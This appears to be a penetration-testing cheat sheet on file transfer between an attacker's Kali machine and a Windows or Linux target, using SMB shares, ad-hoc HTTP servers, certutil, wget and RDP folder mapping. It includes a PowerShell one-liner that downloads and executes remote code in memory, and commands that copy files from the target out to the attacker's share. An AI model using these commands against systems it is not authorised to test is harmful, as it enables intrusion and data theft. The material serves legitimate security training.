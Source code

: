 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

KALI to TARGET
```
xcopy \\<Kali IP>\share\<file> C:\<destination_path>\
```

TARGET to KALI
```
xcopy <source_path>\<file> \\<Kali IP>\share\
```


## HTTP - from attacker to target OR target to attacker

Python 2.7
```
cd <path>
python -m SimpleHTTPServer 8000
```

or

Python 3
```
cd <path>
python3 -m http.server 8000
```

or

PHP
```
cd <path>
php -S 0.0.0.0:8000
```

or

Ruby 
```
cd <path>
ruby -run -ehttpd . -p8000
```


### download to Windows

PowerShell
```
Invoke-WebRequest -Uri 'http://<http server IP>:8000/<filename>' -OutFile <filename> 
```

PowerShell from cmd
```
powershell.exe -command Invoke-WebRequest -Uri http://<http server IP>:8000/<filename> -OutFile <filename>
```

Download and execute with `Invoke-Expression` without saving file
```
powershell.exe IEX(New-Object Net.WebClient).downloadstring(http://<http server IP>:8000/<filename>)
```

Certutil
```
certutil -urlcache -split -f 'http://<http server IP>:8000/<filename>' <path_destiny><filename>
```


### download to Linux

wget
```
wget <http server IP>:8000/<filename>
```

## RDP - tsclient

### attacker to/from Windows

Use rdesktop or xfreerdp to connect to Windows target mapping a attacker host local folder to tsclient - [examples](windowsRemoteDesktop.md)

On the Windows target with CMD or PowerShell you can list the directory with `dir \\tsclient\sharedfolder`.

```powershell
PS C:\> dir \\tsclient\kali

    Directory: \\tsclient\kali

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/19/2021   1:14 PM              0 file_01.txt
-a----        6/18/2021  12:23 PM             36 file_02.txt
```

```powershell
PS C:\> mkdir C:\Temp
PS C:\> copy \\tsclient\kali\Tools.zip C:\Temp
PS C:\> Expand-Archive -LiteralPath C:\Temp\Tools.zip -DestinationPath C:\Temp
```

```powershell
PS C:\> dir C:\Temp\

    Directory: C:\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/18/2023   3:03 PM                Tools
-a----       11/18/2023   2:59 PM       12711723 Tools.zip
```

## Links

- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- [nfinitelogins - windows-file-transfer-cheatsheet/](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
- [certcube - file-transfer-cheatsheet-for-pentesters](https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/)
- [fir3wa1-k3r - File-Transfer-cheatsheet](https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html)
